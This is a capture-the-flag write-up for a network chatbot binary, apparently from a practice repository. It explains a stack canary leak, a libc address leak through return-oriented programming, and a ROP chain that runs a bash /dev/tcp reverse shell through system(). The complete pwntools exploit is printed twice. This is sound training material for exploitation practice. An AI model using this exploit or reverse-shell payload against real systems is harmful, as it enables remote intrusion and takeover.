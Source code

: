 # Exploitation - Hard 1 - NotSoSmart Chatbot

## Description

This is an "AI" chatbot that doesn't seem to know too much  

Interact with it on `tcp/8677`  

Your goal is to gain RCE to be able to find and read a flag.txt on the target system  

No brute force is required - it won't work either  

ASLR is enabled on the target system  


## Solution

<details>
<summary>Show Guide</summary>

First, enumerate the chatbot locally by interacting with it:  
```sh
./NotSoSmartChatbot 127.0.0.1
nc 127.0.0.1 8677
# Very unusual, it tells us our Connfd when we connect:
# Connected. Connfd = 0x00000004

# Can it handle multiple connections at once? 
nc 127.0.0.1 8677
# yes

# is it forking new processes on each new connection?
ps -aux | grep NotSoSmartChatbot
# yes

# What happens if I send 1000 a's to the input option and then quit (return)?
nc 127.0.0.1 8677
> 1
> aaaaaaaaaaaaaaaaaaaaa.....
> 3
# *** stack smashing detected ***: terminated 
# Nice
```

Run checksec on the binary:  
```
checksec NotSoSmartChatbot
[*] '/home/purple/NotSoSmartChatbot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Canary, NX, and ASLR.  

Lets look at it in Ghidra:  

Option 1 will read up to 1280 bytes into a 128 byte buffer on the stack:  
```C
read(param_1,&local_98,1280);
```
Option 2 will write from that buffer until it encounters a null byte:
```C
sVar3 = strlen((char *)&local_98);
sVar4 = write(param_1,&local_98,sVar3);
```

### **Leaking a Canary**

In Linux, the least significant byte of a stack canary will always be `\x00`  
Knowing this, we should be able to overflow out of the buffer, all the way up to and including the null byte at the start of the canary.  
If we overwrite that null byte, when option 2 calls `strlen`/`write` it should keep writing until it reaches the next null byte. Therefore, the next 7 bytes after our payload string will be the 7 bytes of the canary, not including the null byte that we overwrote.  

How many bytes do we need to send before we get to the LSB of the canary?  
It is easy to answer this question with gdb and `cyclic` from pwntools 

```sh
# (Terminal Window 1)
# start chatbot with gdb: 
gdb NotSoSmartChatbot
gef> start 127.0.0.1
# We want to follow the child of the fork, not the parent:
gef> set follow-fork-mode child
# Add a breakpoint to the address where the canary comparison happens (get it from Ghidra: 00401841 XOR RAX,qword ptr FS:[0x28])
gef> b *(0x401841)
gef> c

# (Terminal Window 2)
# Generate cyclic string:
cyclic 300
nc 127.0.0.1 8677
> 1
> Paste cyclic string
> 3

# (Terminal Window 1)
# Should have hit our breakpoint
# Whats in rax? $rax: 0x6261616b6261616a ("jaabkaab"?)

# (Terminal Window 2)
# Search the cyclic string for jaab
cyclic -l jaab
# 136
```

This means the canary starts after the 136th byte of our payload  

We can leak it like so:  
```py
import struct, pwn, time

SLEEP_TIME = .1

TARGET_HOST = '127.0.0.1'
TARGET_PORT = 8677

target = pwn.remote(TARGET_HOST, TARGET_PORT)

payload = b'a' * 136 # fill up space up to the canary \n will overwrite lsb

target.sendline(b'1')
time.sleep(SLEEP_TIME)
target.recvuntil(b'talk about? \n')
target.sendline(payload)
time.sleep(SLEEP_TIME)
target.sendline(b'2')
time.sleep(SLEEP_TIME)
target.recvuntil(b'a' * 136 + b'\n')
canary = target.recv(7)

canary = b'\0' + canary

print(f"Canary is: {hex(struct.unpack('<Q', canary)[0])}")
```
Note: I always sleep for a sleep time when interacting with sockets. Helps with some bugs

### **Defeating ASLR**

We need to leak an address in libc to defeat ASLR  

One way to do this is to use write() to leak the GOT entry for write()  

write takes three parameters: 
1. file descriptor (rdi)
2. buffer to write (rsi)
3. number of bytes to write (rdx)

Luckily the chatbot handed our connection fd to us when we connected  

We need to find ROP gadgets to be able to control all three of those parameters:  
```sh
ropper --file NotSoSmartChatbot --search "pop rdi"
# 0x0000000000401b13: pop rdi; ret; 
ropper --file NotSoSmartChatbot --search "pop rsi"
# 0x0000000000401b11: pop rsi; pop r15; ret;
ropper --file NotSoSmartChatbot --search "pop rdx"
# Nothing... uh oh
ropper --file NotSoSmartChatbot --search "% ?dx"
# 0x000000000040140c: adc edx, dword ptr [rbp + 0x48]; mov ebp, esp; call 0x1390; mov byte ptr [rip + 0x2cd3], 1; pop rbp; ret;

# :( Thats not gonna work...
```
So, we don't have a good gadget for controlling rdx. This would be a problem, except: look at what happens before we ret when we choose option 3:
```C
write(param_1,"Goodbye!\n",9);
```

Because of that, 9 should already be in rdx. And we are trying to leak an 8 byte address. So, we should be ok without needing to control rdx actually  

With these gadgets, here is how we can construct a payload to leak the got entry for write:
```py
target_elf = pwn.ELF('NotSoSmartChatbot')

target.recvuntil(b'Connfd = ')
connfd = int(target.recv(10), 16)

pop_rsi = struct.pack("<Q", 0x401b11)
pop_rdi = struct.pack("<Q", 0x401b13)
ret_padding = struct.pack("<Q", 0x401b14) # calls must be made from a 16-byte aligned boundry. This compensates for that  

write_plt = target_elf.symbols['write']
write_got = target_elf.got['write']

leak_libc_payload = b'a' * 136
leak_libc_payload += canary
leak_libc_payload += b'a' * 8 # There are 8 extra bytes after the canary (rbp storage)
leak_libc_payload += pop_rsi
leak_libc_payload += struct.pack("<Q", write_got) # put write got in rsi
leak_libc_payload += struct.pack("<Q", 0x0) # This will be popped into r15 because of the nature of our pop_rsi gadget
leak_libc_payload += pop_rdi
leak_libc_payload += struct.pack("<Q", connfd)
leak_libc_payload += struct.pack("<Q", write_plt)
leak_libc_payload += ret_padding

target.sendline(b'1')
time.sleep(SLEEP_TIME)
target.recvuntil(b'talk about? \n')
target.sendline(leak_libc_payload)
time.sleep(SLEEP_TIME)

target.sendline(b'3')
time.sleep(SLEEP_TIME)
target.recvuntil(b'Goodbye!\n')
leak = target.recv(8)

leaked_write_addr = struct.unpack("<Q", leak)[0]
print(f"leaked write address in libc: {hex(leaked_write_addr)}")
```

Now that we have that, it is simple to find the base address of libc:
```py
libc_elf = pwn.ELF('libc-2.31.so')

libc_write_offset = libc_elf.symbols['write']

libc_base_addr = leaked_write_addr - libc_write_offset
print(f"libc base address: {hex(libc_base_addr)}")
```

Note: the libc base address should always end in 000. If it does not, you are off  

Now that we have the base address of libc, we can use ROP gadgets and call functions in libc.  

We can use this to build a rop chain which will build a reverse shell string in writeable memory and execute that reverse shell with system:
```Python
###########################
#### Gadgets from libc ####
###########################

# 0x0000000000033d17: mov qword ptr [rax], rdx; ret;
# 0x0000000000036174: pop rax; ret
# 0x0000000000142c92: pop rdx; ret;

pop_rax = struct.pack("<Q", libc_base_addr + 0x36174)
pop_rdx = struct.pack("<Q", libc_base_addr + 0x142c92)
mov_rax = struct.pack("<Q", libc_base_addr + 0x33d17)

# Find writeable memory with vmmap or /proc/pid/maps
# 00404000-00405000 rw-p 00003000 103:02 12064133 /home/purple/NotSoSmartChatbot/NotSoSmartChatbot
writeable_mem = 0x404000

# we are going to need these two:
system_offset = libc_elf.symbols['system']
exit_offset = libc_elf.symbols['exit']

system_addr = struct.pack("<Q", libc_base_addr + system_offset)
exit_addr = struct.pack("<Q", libc_base_addr + exit_offset)


##############################
#### Assemble the Payload ####
##############################

REV_SHELL_ADDR = b'127.0.0.1'
REV_SHELL_PORT = b'8888'

command = b"bash -c 'bash -i >& /dev/tcp/" + REV_SHELL_ADDR + b"/" + REV_SHELL_PORT + b" 0>&1'"

final_payload = b'a' * 136
final_payload += canary
final_payload += b'a' * 8 # There were 8 extra bytes after the canary (rbp storage)

# Write string to writeable memory
for i in range(0, len(command), 8):
    final_payload += pop_rax
    final_payload += struct.pack("<Q", writeable_mem + i) # put writable memory address in rax
    final_payload += pop_rdx
    final_payload += command[i:i+8].ljust(8, b'\x00') # put next 8 bytes of payload into rdx
    final_payload += mov_rax

final_payload += pop_rdi
final_payload += struct.pack("<Q", writeable_mem) # Put the address of our command string in rdi

# realign if we need to:
if len(final_payload) % 16 != 0:
    final_payload += ret_padding

final_payload += system_addr
final_payload += exit_addr

##########################
#### Send the payload ####
##########################

target.close()

target = pwn.remote(TARGET_HOST, TARGET_PORT) # Need to reconnect

target.sendline(b'1')
time.sleep(SLEEP_TIME)
target.recvuntil(b'talk about? \n')
target.sendline(final_payload)
time.sleep(SLEEP_TIME)

target.sendline(b'3')
```
</details>


<details>
<summary>Show Solution</summary>

Here is the full exploit, all put together:

```Python
import struct, pwn, time

SLEEP_TIME = .1

TARGET_HOST = '127.0.0.1'
TARGET_PORT = 8677

REV_SHELL_ADDR = b'127.0.0.1'
REV_SHELL_PORT = b'8888'

libc_elf = pwn.ELF('/lib/x86_64-linux-gnu/libc-2.31.so')
target_elf = pwn.ELF('NotSoSmartChatbot')

target = pwn.remote(TARGET_HOST, TARGET_PORT)

#### What is the Conn FD? ####

target.recvuntil(b'Connfd = ')
connfd = int(target.recv(10), 16)

############################
#### Leaking the Canary ####
############################

payload = b'a' * 136 # fill up space up to the canary \n will overwrite lsb

target.sendline(b'1')
time.sleep(SLEEP_TIME)
target.recvuntil(b'talk about? \n')
target.sendline(payload)
time.sleep(SLEEP_TIME)
target.sendline(b'2')
time.sleep(SLEEP_TIME)
target.recvuntil(b'a' * 136 + b'\n')
canary = target.recv(7)

canary = b'\0' + canary

print(f"Canary is: {hex(struct.unpack('<Q', canary)[0])}")

##############################
#### Gadgets we will need ####
##############################

# write() takes three parameters:
	# 1) file descriptor (rdi)
	# 2) buffer to write (rsi)
	# 3) number of bytes to write (rdx)

# pop rsi:
# 0x0000000000401b11: pop rsi; pop r15; ret;
pop_rsi = struct.pack("<Q", 0x401b11)

# pop rdi:
pop_rdi = struct.pack("<Q", 0x401b13)

# pop rdx:
# There are no great rdx gadgets: Will rely on the value in rdx being more than 8 (which should be the case)

# ret padding:
ret_padding = struct.pack("<Q", 0x401b14)

##############################################
#### Leaking the address of write in libc ####
##############################################

write_plt = target_elf.symbols['write']
write_got = target_elf.got['write']

leak_libc_payload = b'a' * 136
leak_libc_payload += canary
leak_libc_payload += b'a' * 8 # There were 8 extra bytes after the canary (rbp storage)
leak_libc_payload += pop_rsi
leak_libc_payload += struct.pack("<Q", write_got)
leak_libc_payload += struct.pack("<Q", 0x0) # This will be popped into r15 because of the nature of our pop_rsi gadget
leak_libc_payload += pop_rdi
leak_libc_payload += struct.pack("<Q", connfd)
leak_libc_payload += struct.pack("<Q", write_plt)
leak_libc_payload += ret_padding

target.sendline(b'1')
time.sleep(SLEEP_TIME)
target.recvuntil(b'talk about? \n')
target.sendline(leak_libc_payload)
time.sleep(SLEEP_TIME)

target.sendline(b'3')
time.sleep(SLEEP_TIME)
target.recvuntil(b'Goodbye!\n')
leak = target.recv(8)

leaked_write_addr = struct.unpack("<Q", leak)[0]
print(f"leaked write address in libc: {hex(leaked_write_addr)}")

####################################
#### Calculating libc base addr ####
####################################

libc_write_offset = libc_elf.symbols['write']

libc_base_addr = leaked_write_addr - libc_write_offset
print(f"libc base address: {hex(libc_base_addr)}")

###########################
#### Gadgets from libc ####
###########################

# 0x0000000000033d17: mov qword ptr [rax], rdx; ret;
# 0x0000000000036174: pop rax; ret
# 0x0000000000142c92: pop rdx; ret;

pop_rax = struct.pack("<Q", libc_base_addr + 0x36174)
pop_rdx = struct.pack("<Q", libc_base_addr + 0x142c92)
mov_rax = struct.pack("<Q", libc_base_addr + 0x33d17)

# Find writeable memory with vmmap or /proc/pid/maps
# 00404000-00405000 rw-p 00003000 103:02 12064133 /home/purple/NotSoSmartChatbot/NotSoSmartChatbot
writeable_mem = 0x404000

# we are going to need these two:
system_offset = libc_elf.symbols['system']
exit_offset = libc_elf.symbols['exit']

system_addr = struct.pack("<Q", libc_base_addr + system_offset)
exit_addr = struct.pack("<Q", libc_base_addr + exit_offset)

##############################
#### Assemble the Payload ####
##############################

command = b"bash -c 'bash -i >& /dev/tcp/" + REV_SHELL_ADDR + b"/" + REV_SHELL_PORT + b" 0>&1'"

final_payload = b'a' * 136
final_payload += canary
final_payload += b'a' * 8 # There were 8 extra bytes after the canary (rbp storage)

# Write string to writeable memory
for i in range(0, len(command), 8):
    final_payload += pop_rax
    final_payload += struct.pack("<Q", writeable_mem + i) # put writable memory address in rax
    final_payload += pop_rdx
    final_payload += command[i:i+8].ljust(8, b'\x00') # put next 8 bytes of payload into rdx
    final_payload += mov_rax

final_payload += pop_rdi
final_payload += struct.pack("<Q", writeable_mem) # Put the address of our command string in rdi

# realign if we need to:
if len(final_payload) % 16 != 0:
    final_payload += ret_padding

final_payload += system_addr
final_payload += exit_addr

##########################
#### Send the payload ####
##########################

target.close()

target = pwn.remote(TARGET_HOST, TARGET_PORT) # Need to reconnect

target.sendline(b'1')
time.sleep(SLEEP_TIME)
target.recvuntil(b'talk about? \n')
target.sendline(final_payload)
time.sleep(SLEEP_TIME)

target.sendline(b'3')
```
</details>